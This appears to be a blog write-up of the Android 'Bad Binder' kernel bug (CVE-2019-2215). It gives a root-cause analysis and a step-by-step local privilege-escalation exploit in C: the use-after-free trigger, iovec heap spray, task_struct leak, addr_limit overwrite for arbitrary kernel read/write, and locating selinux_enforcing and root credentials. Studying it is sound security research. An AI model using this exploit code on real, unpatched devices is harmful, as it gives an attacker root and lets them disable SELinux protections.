







# Overview

Bad Binder (`CVE-2019-2215`) is a `UaF` in `Binder` (Android IPC) and `epoll` (Async IO). This blog will go over why there is use-after-free (UaF) and how we can use UaF to achieve arbitrary read/write and perform a Privilege Escalation (PE).

# Exploit

Exploit for this writeup will be hosted [here](https://github.com/elbiazo/CVE-2019-2215)

# Environment Setup

Since this bug is in `Binder` and doesn't require vendor specific kernel module, we can use `goldfish` kernel in `AVD` (Android Emulator Virtual Devices). It will be for `Intel x64` CPU but it should work with `Arm` CPU with minor update since this exploit is data only. Things like fields in structure might be different. [HackSysTeam's Bad Binder Exploitation Workshop](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/environment-setup.html). Have good tutorial on how to set this environment.

# Root Cause Analysis

## TL;DR Summary

1. `fd = open("/dev/binder", O_RDONLY);` Allocates `binder_thread.wait` which is linked list.
2. `epfd = epoll_create(1000);` Creates `epoll` structure.
3. `epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);` Will create `epoll_entry` and set `epoll_entry.whead` to point to `binder_thread.wait`
4. `ioctl(fd, BINDER_THREAD_EXIT, NULL);` **Frees** `binder_thread.wait`. Problem is `epoll_entry.whead` still points to `binder_thread.wait`.
5. `epoll_ctl(epfd, EPOLL_CTL_DEL, fd, NULL);` Will try to **unlink** `epoll_entry` by calling `__list_del()`. This **unlinking** gives you ability to write `0x10` bytes to where `binder_thread.wait` was.


## [Trigger PoC](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html)

```c
// From Project Zero blog 
// https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html

#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()

{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };

        // Create binder_thread structure
        fd = open("/dev/binder", O_RDONLY);

        // size for epoll_create can be any uint32_t > 0
        epfd = epoll_create(1000);

        // Link binder_thread.wait to epoll_entry.whead
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);

        // Free binder_thread.wait
        ioctl(fd, BINDER_THREAD_EXIT, NULL);

        // Unlink epoll_entry.whead causing UaF
        epoll_ctl(epfd, EPOLL_CTL_DEL, fd, NULL);
}
```

## Allocations

### High Level Flowchart


### Opening Binder

```c
// Create binder_thread structure
fd = open("/dev/binder", O_RDONLY);
```

#### Allocating `binder_proc`


Allocates `struct binder_proc *proc`. This will get used to create `binder_thread` **later**.

### Creating epoll

```c
// size for epoll_create can be any uint32_t > 0
epfd = epoll_create(1000);
```

#### Allocating `eventpoll`


Allocates `struct eventpoll *ep`. This will eventually create and link `epoll_entry` when `
`epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event)` is called.

### Adding Binder to epoll

```c
// Link binder_thread.wait to epoll_entry.whead
epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
```

#### Allocating epitem (eventpoll item) and linking to eventpoll


If its hasn't created before, it wil create epi (eventpoll item) and **link** it to `eventpoll.rbr`. `rbr` is red black tree that holds all the `epitem`.

[Below given diagram shows how an `epitem` structure is linked to `eventpoll` structure. Image is from HackSysTeam](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/root-cause-analysis.html#syscall-epoll-ctl)


#### Allocating binder_thread

Continuing from `ep_insert` above


1. `init_poll_func_ptr(&epq.pt, ep_ptable_queue_proc)` sets `epq.pt._qproc` to `ep_ptable_queue_proc`
2. `binder_get_thread`  will allocate binder_thread

#### Allocating eppoll_entry 

Continuing from `binder_poll` above


1. poll_wait pass `thread->wait` as parameter. This is list_queue that will be linked to `epoll_entry` in next step. If you remember this is the pointer where `UaF` happens
* `p->_qproc` was set as `ep_ptable_queue_proc` from previous step

#### Linking epitem -> epoll_entry -> binder_thread

Continuation from `ep_ptable_queue_proc` from before



1. add_wait_queue will link `pwq.wait` to `binder_thread.wait`
2. list_add_tail will link `epi.pwqlist` to `pwq.llink`

It will look something like this


[Below given diagram shows how `eventpoll` structure is connected with `binder_thread` structure. Image is from HackSysTeam](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/root-cause-analysis.html#syscall-epoll-ctl)


## Free

```c
// Free binder_thread.wait
ioctl(fd, BINDER_THREAD_EXIT, NULL);
```



This will free binder_thread structure

## Use after Free (UaF)

```c
// Unlink epoll_entry.whead causing UaF
epoll_ctl(epfd, EPOLL_CTL_DEL, fd, NULL);
```



`wq_entry->entry` is actually `pwq->wait`. We know that `binder_thread` have been freed from previous step. However, it is still trying to call `list_del` on `pwq.wait` which is link list pointer to `binder_thread.wait`. 



### list_del operation

^d0b717


```c
static inline void __list_del(struct list_head * prev, struct list_head * next)
{
        next->prev = prev;
        WRITE_ONCE(prev->next, next);
}
```

`next` and `prev` is field of `pwq.wait`.
`next->prev` and `prev->next` should both point to where `binder_thread.wait` used to be.

Let's rewrite this so its easier to understand

```c
where_binder_thread_used_to_be+8 = pwq.wait.prev; // + 8 since prev is 8 bytes after next
where_binder_thread_used_to_be = pwq.wait.next;
```

Pretty much it will write address of `where_binder_thread_used_to_be` into that address.

If we can allocate kmalloc that matches binder_thread size and do `list_del`, we can override the (new_struct+0xa0) and (new_struct+0xa8) with address of nwe_struct+0xa0.

```c
*(new_struct+0xa0) = new_struct+0xa0
*(new_struct+0xa8) = new_struct+0xa0
```

# Exploitation

First, to use this `UaF`, we would need to find interesting struct that matches `struct binder_thread`'s `kmalloc` size which is `kmalloc-512`.

## Vectored I/O

Vectored I/O (iov) is a way to send multiple buffer with single function. This is great because it will use less syscalls then calling `write` one by one. 

### [Example from Wiki](https://en.wikipedia.org/wiki/Vectored_I/O)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include <unistd.h>
#include <sys/uio.h>

int main(int argc, char *argv[])
{
    const char buf1[] = "Hello, ";
    const char buf2[] = "Wikipedia ";
    const char buf3[] = "Community!\n";

    struct iovec bufs[] = {
        { .iov_base = (void *)buf1, .iov_len = strlen(buf1) },
        { .iov_base = (void *)buf2, .iov_len = strlen(buf2) },
        { .iov_base = (void *)buf3, .iov_len = strlen(buf3) },
    };

    if (-1 == writev(STDOUT_FILENO, bufs, sizeof bufs / sizeof bufs[0]))
    {
        perror("writev()");
        exit(EXIT_FAILURE);
    }

    return EXIT_SUCCESS;
}
```

output:
```bash
Hello, Wikipedia Community!
```

### Vectored I/O Internals

The reason why `iovec` is interesting is due to how array of `struct iovec` gets allocated in kernel. For example above, will create `kmalloc-64` (in Linux) and `kmalloc-128` (In Android. Smallest cache size). Therefore, if we can make enough `iovecs` we should be able to allocate `kmalloc-512` to get placed on where `binder_thread` used to be.

### Allocating Any kmalloc size

`struct iovec` is `16` bytes.

```c
struct iovec
{
    void __user *iov_base;    /* BSD uses caddr_t (1003.1g requires void *) */
    __kernel_size_t iov_len; /* Must be size_t (1003.1g) */
};
```

When you call `writev` with array of `iovec`, it will eventually call `rw_copy_check_uvector` and it will `kmalloc` with size `nr_segs*sizeof(struct iovec)` where `nr_segs` being number of `iovec` and `sizeof(struct iovec)`.

**Meaning we can create any size `kmalloc` cache with writev**




## Leaking task_struct

```c
void BadBinder::leak_task_struct()
```

[High Level View of leaking task_struct from P0](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html)


### Initializing for task_struct leak
```c
// Creates mmap with addr 0x1_0000_0000 and set m_lock_page
create_lock_page(); 
int pipe_fd[2] = {0};
char data_buffer[PAGE_SIZE] = {0};
// 
struct iovec iovecs[25] = {0};
int binder_fd = open_binder();
int epfd = create_epoll();

pipe(pipe_fd);
fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE)

iovecs[10].iov_base = m_lock_page; // binder_thread->wait.lock
iovecs[10].iov_len = PAGE_SIZE; // binder_thread->wait.head.next
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = PAGE_SIZE;

epoll_add(epfd, binder_fd);
```

#### create_lock_page()

```c
void BadBinder::create_lock_page()
{
    m_lock_page = mmap(
        (void *)0x100000000ul,
        PAGE_SIZE,
        PROT_READ | PROT_WRITE,
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0);
}
```

Sets `BadBinder::m_lock_page` to `0x1_0000_0000` (Lower 32bit are all 0s). Reason being `binder_thread.wait.lock`'s lower 32bit needs to be all 0 or else cpu will just get locked.

```c
struct wait_queue_head {
    spinlock_t		lock;
    struct list_head	head;
};
```

#### Creating iovecs

```c
struct iovec iovecs[25] = {0};
```

Create `struct iovec iovecs[25]`. 25 * 16 `(sizeof(iovec))` = 400 bytes which means it will be allocated in `kmalloc-512`. There is reason why it is **400**. This will be explained later.

#### Allocate binder and epoll struct

```c
int binder_fd = open_binder();
int epfd = create_epoll();
```

We need these so that it can create `struct binder_thread` and `struct eventpoll`

#### Create pipes

```c
pipe(pipe_fd);
fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE)
```

Create a `pipe` so we can have IPC between `parent` and `child` from `fork`. Then set pipe size to PAGE_SIZE (0x1000). For each read, it will be PAGE_SIZE.

#### Set iovecs

```c
iovecs[10].iov_base = m_lock_page; // binder_thread->wait.lock
iovecs[10].iov_len = PAGE_SIZE; // binder_thread->wait.head.next
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = PAGE_SIZE;
```


Set  `iovecs` so that it aligns with `binder_thread.wait` which is  `iovecs[10]`. Here we set the `wait.lock` to our `mmap` address with lower 32 bit all 0 so that it doesn't lock unlinking. Also we should be able to read `m_lock_page` since we allocated it with PAGE_SIZE.

Then we set `iovecs[11].iov_base` to any junk. This shouldn't matter. `iovecs[11].iov_len`, we will set `PAGE_SIZE`. This is set to `PAGE_SIZE` but it doesn't have to be this big since we only need to leak up to `sizeof(struct binder_thread - 0xA0)`.

Remember when we do unlinking by calling `epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, NULL);`, operation will be something like below


```
// list_del dump during unlinking
// __list_del
//  next: 0xffff88803a8fcca8 (addr eppoll_event.wait.next pointing to )
//  prev: 0xffff88803a8fcca8
//  next->prev: 0x0000000041414141
//  prev->next: 0x0000000000001000
//          next->prev = prev
//          prev->next = next
```

which is equivalent to 

```c
//0xa8 since 0xa0 is where binder_thread.wait.lock is. wait.next is 0xa8
*(iovecs_kmalloc_ptr+0xa0) = iovecs_kmalloc_ptr+0xa8 
*(iovecs_kmalloc_ptr+0xa8) = iovecs_kmalloc_ptr+0xa8
```


### Linking binder_thread and eppoll_event

```c
epoll_add(epfd, binder_fd);
```

Connecting structure together. Explained at  [Linking epitem -> epoll_entry -> binder_thread](#linking-epitem---epoll_entry---binder_thread)

### Forking

```c
pid_t leak_pid = fork();
```

We will now have `child` and `parent` happening at same time. But first we will look at `parent` because `child` will `sleep(2)`.

#### (Parent Process) Free binder_thread and Allocate Iovecs
```c
binder_thread_exit(binder_fd);
// Should wrote PAGE_SIZE*2 since we have two iovec with PAGE_SIZE
writev(pipe_fd[1], iovecs, IOVEC_COUNT);
```

This will free `binder_thread` which will leave `kmalloc-512` cache freed. We fill that address with our `iovecs` by doing `writev`

`writev` should be blocking until child does `read` with `PAGE_SIZE` since we set `pipe` to `PAGE_SIZE`

#### (Child Process)  Cause unlinking 

```c
sleep(2); // Block so parent can setup iovecs kmalloc
epoll_del(epfd, binder_fd); // Cause Unlinking (list_del)
read(pipe_fd[0], data_buffer, PAGE_SIZE); // Should read PAGE_SIZE
exit(EXIT_SUCCESS);
```

At this state, we should have caused where `binder_thread` used to be with our `iovecs`.
Calling `epoll_del` will cause `unlinking`. Then we call `read` so that parent's `writev` gets unblocked and exit.

It should have done operation below

```c
//0xa8 since 0xa0 is where binder_thread.wait.lock is. wait.next is 0xa8
iovecs[10].iov_len = iovecs_kmalloc_ptr+0xa8 
iovecs[11].iov_base = iovecs_kmalloc_ptr+0xa8
```

#### (Parent Process) Read task_struct

```c
// Read iovecs[11]
read(pipe_fd[0], data_buffer, PAGE_SIZE);
// Wait till child exit
wait(nullptr);

// TASK_STRUCT_OFFSET_IN_LEAKED_DATA == 0xe8
struct task_struct *task = (struct task_struct *)*((int64_t *)(data_buffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
```

**data_buffer hexdump**

```
// dump after leak read

0x000000: a8 cc 8f 3a 80 88 ff ff a8 cc 8f 3a 80 88 ff ff  ...:.......:....
0x000010: 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
                             [...]
0x0000d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0x0000e0: 00 00 00 00 00 00 00 00 00 ee 81 3a 80 88 ff ff  ...........:....

```

**struct binder_thread**
```c
struct binder_thread {
    struct binder_proc *proc;
    [...]
    wait_queue_head_t wait; // offset 160 (0xa0)
    {
        .lock // offset 160 (0xa0)
        .next // offset 168 (0xa8)
        .prev // offset 175 (0xb0)
    }
    [...]
    struct task_struct *task; // offset 400 (0x190)
};
```

When we read the data, it will be from where `binder_thread.wait.next` used to be which is offset `0xa8`.  If you want to to get to task_struct you would need to get `uint64_t` of `data_buffer+0xe8`. `0xe8` is from `task_struct_offset (0x190)- wait.next (0xa8)`.

## Overriding addr_limit

In `task_struct` there is a field named `addr_limit` which is used to validate where user process can write/read to/from. We know that higher virtual address is used for kernel address. If we can override this field with `0xFFFFFFFFFFFFFFFE`, we should be able to write to any address giving us `Arbitary R/W`. The reason why it is `0xFFFFFFFFFFFFFFFE` instead of `0xFFFFFFFFFFFFFFFF` is explained in these blog. [duasynt](https://duasynt.com/blog/android-uao-kernel-expl-mitigation)and [HackSysTeam](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/exploitation.html#leaking-task-struct-pointer)
Another gotcha are that we can't use `readv` to write to our `iovecs`. The reason being is that `readv` will not process one `iovec`. This means that when you try to read data to `iovecs`, it will try to copy all sum of `iov_len` to `iovecs[10].iov_base`. And if you remember from [Child Process Cause unlinking](#child-process--cause-unlinking), `iovecs[10].iov_len` becomes `binder_thread_ptr` which is really big number. Therefore, it will just skip out on processing `iovecs[11]`.

**iov_iter.c readv**
```c
static size_t copy_page_to_iter_iovec(struct page *page, size_t offset, size_t bytes,
                         struct iov_iter *i)
{
        size_t skip, copy, left, wanted;
        const struct iovec *iov;
        char __user *buf;
        void *kaddr, *from;
        [...]
        while (unlikely(!left && bytes)) {
                iov++;
                buf = iov->iov_base;
                copy = min(bytes, iov->iov_len);
                left = copyout(buf, from, copy);
                [...]
        }
        [...]
        return wanted - bytes;
}
```

In [Project Zero blog](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html), they use `recvmsg` instead since it allows blocking by passing `MSG_WAITALL` flag.

### Initializing for Overriding addr_limit

```c
struct msghdr message = {nullptr};
struct iovec iovecs[IOVEC_COUNT] = {nullptr};
int sock_fd[2] = {0};
int binder_fd = open_binder();
int epfd = create_epoll();
socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fd);
static char junk_sock_data[] = {0x41};
write(sock_fd[1], junk_sock_data, sizeof(junk_sock_data));// should sent 1 bytes
```

Similar setup to [initializing for task_struct leak](#initializing-for-task_struct-leak). Difference is we use `socketpair` instead of `pipe` so we can use `recvmsg`. Also, we have to send some junk data so that when `recvmsg` is called, it processes the junk data and kmalloc `iovecs` in kernel.

### Setting up iovecs

```c
iovecs[10].iov_base = m_lock_page;            // binder_thread->wait.lock
iovecs[10].iov_len = 1;                       // binder_thread->wait.head.next
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
iovecs[12].iov_base = (void *)0x42424242;
iovecs[12].iov_len = 0x8;

uint64_t addr_limit_ptr = (uint64_t)((uint8_t *)m_task_struct_ptr + OFFSET_TASK_STRUCT_ADDR_LIMIT);
info("\taddr_limit_ptr: 0x%lx", addr_limit_ptr);
static uint64_t override_binder_thread_wait[] = {
    0x1,                   // iovecStack[IOVEC_WQ_INDEX].iov_len
    0x41414141,            // iovecStack[IOVEC_WQ_INDEX + 1].iov_base
    0x8 + 0x8 + 0x8 + 0x8, // iovecStack[IOVEC_WQ_INDEX + 1].iov_len
    addr_limit_ptr,        // iovecStack[IOVEC_WQ_INDEX + 2].iov_base
    0xFFFFFFFFFFFFFFFE     // addr_limit value. It will be written to addr_limit_ptr above
};

message.msg_iov = iovecs;
message.msg_iovlen = IOVEC_COUNT;
```


```c
iovecs[10].iov_base = m_lock_page;            // binder_thread->wait.lock
iovecs[10].iov_len = 1;                       // binder_thread->wait.head.next
```

First iovec that gets read is `iovecs[10]` . And it has `iov_len` of 1. This is so that when we do call `recvmsg(sock_fd[0], &message, MSG_WAITALL);`. It processes our junk data write ` write(sock_fd[1], junk_sock_data, sizeof(junk_sock_data));`.

```c
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
```

Second iovec that will get read will be from `child` process after they do `unlinking`.

```c
iovecs[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
iovecs[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
```

Third iovec will be used to override `addr_limit`. `iov_base: 0x42424242` will be replace with `addr_limit_ptr` address in `child` process. It will go over more about this down the road.

### Linking binder_thread and eppoll_event

```c
epoll_add(epfd, binder_fd);
```

Connecting structure together. Explained at [Linking epitem -> epoll_entry -> binder_thread](#linking-epitem---epoll_entry---binder_thread)

### Forking

```c
pid_t child_pid = fork();
```

We will now have `child` and `parent` happening at same time. But first we will look at `parent` because `child` will `sleep(2)`.

#### (Parent) Free binder_thread and block via recvmsg

```c
binder_thread_exit(binder_fd);

// Should recv sum of all iov_len
ssize_t bytes_received = recvmsg(sock_fd[0], &message, MSG_WAITALL);

wait(nullptr);
```

Frees `binder_thread` and waits for all `iovecs` to be `write` from `child` process. Currently, it processed `iovecs[10]` which is junk data with `iov_len` of `1`.

#### (Child) Unlink then write to `iovecs[11]`

```c
static uint64_t override_binder_thread_wait[] = {
0x1, // iovecs[10].iov_len
0x41414141, // iovecx[11].iov_base
0x8 + 0x8 + 0x8 + 0x8, // iovecx[11].iov_len
addr_limit_ptr, // iovecs[12].iov_base
0xFFFFFFFFFFFFFFFE // addr_limit value. It will be written to addr_limit_ptr above
};
```

```c
sleep(2);
epoll_del(epfd, binder_fd);

write(sock_fd[1], override_binder_thread_wait, sizeof(override_binder_thread_wait));

exit(EXIT_SUCCESS);
```

It is similar to [(Child Process) Cause unlinking](#child-process--cause-unlinking). But we will `write` to `recvmsg` after unlinking and `iovecs` will look something like below after we `write`.

Interesting part is that our second iovec we are planned to write (0x8 * 4) == 32 bytes.

```c
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
```

But we send (0x8 * 5) == 40 bytes (`sizeof(struct override_binder_thread_wait)`). The reason is first 32 bytes will be written to `binder_thread.wait` which is actually where **`iovecs[10].iov_len`** is. So we have to make sure we override the area with same data except override `iovecs[12].iov_base` with `addr_limit_ptr`.

The extra write which is `0xFFFFFFFFFFFFFFFE` will store that in `iovecs[1].iov_base` which is now `addr_limit_ptr`. 

**Red is where it have been replaced with override_binder_thread_wait**


#### (Parent) Unblocked recvmsg

```c
ssize_t bytes_received = recvmsg(sock_fd[0], &message, MSG_WAITALL);

ssize_t expected_bytes_received = iovecs[10].iov_len +
                                  iovecs[11].iov_len +
                                  iovecs[12].iov_len;

if (bytes_received != expected_bytes_received)
{
    err("\tbytes_received: 0x%lx, expected: 0x%lx", bytes_received, expected_bytes_received);
}

wait(nullptr);
```

Since child process have sent correct amount of bytes `write`, it should have been unblocked. Also we have `addr_limit_ptr` to set to `0xFFFFFFFFFFFFFFFE`

## Arbitrary R/W

Since we have overwritten `addr_limit` we should be able to `write` and `read` anywhere.

```c
void BadBinder::arb_read(char *buf, char *addr, size_t size)
{
    info("arb_read: addr: 0x%lx, size: 0x%lx", addr, size);
    // write to pipe
    if (write(m_rw_pipes[1], addr, size) != size)
    {
        err("\tUnable to write to pipe");
    }

    // read from pipe
    if (read(m_rw_pipes[0], buf, size) != size)
    {
        err("\tUnable to read from pipe");
    }
}

void BadBinder::arb_write(char *addr, char *buf, size_t size)
{
    info("arb_write: addr: 0x%lx, size: 0x%lx", addr, size);
    // write to pipe
    if (write(m_rw_pipes[1], buf, size) != size)
    {
        err("\tUnable to write to pipe");
    }

    // read from pipe
    if (read(m_rw_pipes[0], addr, size) != size)
    {
        err("\tUnable to read from pipe");
    }
}
```

Here we just use `pipe` because its convenient to use pipe to `write` and `read` then opening something like file to pass to `write` and `read`. You can just use `STDOUT` or `STDIN` FD to do this as well but then it will just `write/recv` from terminal which is not ideal.

## Getting Kernel Base to get selinux_enforcing Address

Since we now have `arbitary R/W` as well as `task_struct_ptr`, we should be able to get kernel base by reading `nsproxy` field of task_struct by substracting `nsproxy_ptr - nsproxy_offset_to_kbase`).

```c

void BadBinder::get_kbase()
{
    info("Getting kaslr base by leaking nsproxy from task_struct");
    uint64_t nsproxy = read_u64((uint64_t)m_task_struct_ptr + offsetof(struct task_struct, nsproxy));
    info("nsproxy: 0x%lx", nsproxy); 

    m_kbase  = nsproxy - NSPROXY_OFFSET_FROM_KBASE_TEXT;
    info("kbase: 0x%lx", m_kbase);
    m_selinux_enforcing = m_kbase + SELINUX_ENFORCING_OFFSET;
    info("selinux_enforing addr: 0x%lx", m_selinux_enforcing);
}
```

## Overriding task_struct.cred with init_cred

```c
// struct cred init_cred = {
//      .usage              = ATOMIC_INIT(4),
//      .uid                = GLOBAL_ROOT_UID,
//      .gid                = GLOBAL_ROOT_GID,
//      .suid               = GLOBAL_ROOT_UID,
